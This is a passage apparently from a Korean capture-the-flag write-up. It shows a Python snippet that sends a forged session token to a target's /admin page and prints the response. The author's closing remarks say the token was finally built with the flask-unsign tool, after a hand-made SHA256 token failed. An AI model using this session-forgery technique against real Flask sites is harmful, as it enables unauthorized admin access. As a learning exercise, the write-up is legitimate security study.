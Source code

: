 ```python
print("jwt:", jwt_encode)

r = requests.get(
    f"{url}/admin",
    cookies={"session":jwt_encode}
)

if "Hello" in r.text:
    print(r.text)
    exit()
```
       
## 후기

`jwt` 값을 생성하기 위해 `urlsafe_b64encode()`과 `SHA256` 해시 알고리즘을 사용하여 토큰을 생성하였는데 `Flask session`에 사용되는 토큰 인증 방식과 달라서 삽질을 많이 했습니다...
    
찾아보니 `flask-unsign` 모듈이 존재하여 이를 사용하니 해결할 수 있었습니다. 

새로운 지식을 얻을 수 있어서 좋았습니다.                 
          
------
